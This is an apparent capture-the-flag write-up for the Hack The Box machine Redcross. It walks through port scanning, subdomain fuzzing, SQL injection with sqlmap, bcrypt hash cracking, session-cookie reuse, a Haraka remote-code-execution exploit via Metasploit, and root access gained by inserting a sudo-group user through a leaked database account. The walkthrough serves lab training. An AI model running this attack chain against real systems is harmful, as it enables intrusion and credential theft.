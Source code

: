 # [Redcross](https://app.hackthebox.com/machines/redcross)

```bash
nmap -p- --min-rate 10000 10.10.10.113 -Pn
```

![Alt text](img/image.png)



After knowing open ports(22,80,443) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.113 -Pn
```

![Alt text](img/image-1.png)



While browsing target ip address, it resolves into 'intra.redcross.htb' , that's why we need to add this into `/etc/hosts` file.

![Alt text](img/image-2.png)


Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://10.10.10.113 -H "Host: FUZZ.redcross.htb" --sc 302
```

![Alt text](img/image-3.png)



I just access to this application via `guest:guest` credentials. Let's find exploit.

![Alt text](img/image-4.png)


In my opinion, we play with `o` parameter, may be we can do something.

SQLI

![Alt text](img/image-5.png)


Let's use `sqlmap` to find SQL Injection and dump related data which we need.

```bash
sqlmap -r sqli.req --delay=1 --batch --dump
```

![Alt text](img/image-7.png)


From this result, I can see all password hashes of users.
But, I need to grab one of them due to easy cracking.

charles: $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i

Let's crack this via `hashcat` tool.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-6.png)

Hola, I found password of 'charles' user.

charles: cookiemonster


I login into 'intra.redcross.htb' via this credentials, don't find anything.

![Alt text](img/image-8.png)


Let's login into 'admin.redcross.htb' but it says that our **credentials not enough**.


Let's copy PHPSESSID from 'intra' into 'admin' to authenticate ourselves.

![Alt text](img/image-9.png)


That's worked.


Here, I see that Network Access and I enter my ip address into here to be in whitelisted.

![Alt text](img/image-10.png)


After gaining network access, I do `nmap` scan to find anything interesting.

![Alt text](img/image-11.png)


After I see that for port (1025) is 'Haraka' running, I just use RCE of this version of product.


![Alt text](img/image-13.png)

Let's use `msfconsole` command.

![Alt text](img/image-12.png)


user.txt

![Alt text](img/image-14.png)


For privilege escalation, I found sensitive file called **'/var/www/html/admin/pages/actions.php'**

![Alt text](img/image-15.png)

dbname: unix
dbuser: unixusrmgr 
dbpassword=dheu%7wjx8B&

I can login into database as like this.
```bash
psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```


I see that I can modify '/etc/group' file. It means , I can add user into machine (via database) and go to `sudo` group, as a result, I can be root user.

```bash
openssl passwd -1 dr4ks  #copy dr4ks's hash
```

```bash
insert into passwd_table (username, passwd, gid, homedir) values ('dr4ks', '$1$AkyO5J36$n.fnwQRXVAE17k8ev.ES/.', 27, '/home/penelope');
```
![Alt text](img/image-16.png)

Now, we just need to do ssh

```bash
ssh dr4ks@10.10.10.113  #pass=dr4ks
```


root.txt

![Alt text](img/image-17.png)